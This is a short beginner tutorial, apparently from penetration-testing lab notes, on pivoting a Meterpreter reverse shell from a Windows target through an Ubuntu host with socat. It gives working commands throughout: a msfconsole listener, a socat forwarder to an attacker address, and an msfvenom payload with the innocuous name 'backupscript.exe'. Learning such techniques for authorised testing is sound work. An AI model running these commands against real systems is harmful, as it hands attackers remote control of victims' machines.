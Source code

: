 
## What is Socat Redirection (in simple words)?

Imagine you want to **talk to someone (Windows target)**, but you can’t **reach them directly**. However, there’s a **mutual friend (Ubuntu)** who **can talk to both of you**.

So, you tell your friend (Ubuntu):  
👉 “Hey, if the Windows guy talks to you, please pass that message to me!”

That’s **Socat** — a **helper tool** that forwards data between two people (or computers). It acts like a **middleman** for network connections.

## What are we trying to do?
You want to:

1. Get **remote control (reverse shell)** of a Windows computer.
2. But you can’t directly talk to it from your attack laptop.
3. You **can talk to Ubuntu**, and Ubuntu **can talk to Windows**.
4. So, you use **Socat on Ubuntu** to forward Windows's connection **back to you**.

💡 It’s like **passing secret notes through a friend** who sits between you and the target.

### Step 1: Start a listener (on your attacker machine)
```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 80
run
```
This means:  
"Hey, I’m listening on port 80. If anyone calls me, I’ll take control!"

### Step 2: Set up the **middleman** (Ubuntu with Socat)
On Ubuntu, run:
```bash
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

This says:

> “If someone talks to me (Ubuntu) on **port 8080**, I’ll forward their message to **my hacker friend (you)** on port **80**.”

### Step 3: Make a payload for Windows
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 LPORT=8080 -f exe -o backupscript.exe
```
👉 “Call Ubuntu on 172.16.5.129:8080”

### Step 4: Run the payload on Windows

You somehow run `backupscript.exe` on the Windows machine (maybe upload it through RDP, SMB, PowerShell, etc.).

As soon as it runs:
- Windows tries to **connect to Ubuntu:8080**
- **Ubuntu forwards that to you**
- Your listener catches it
- 🔥 **You get a shell!**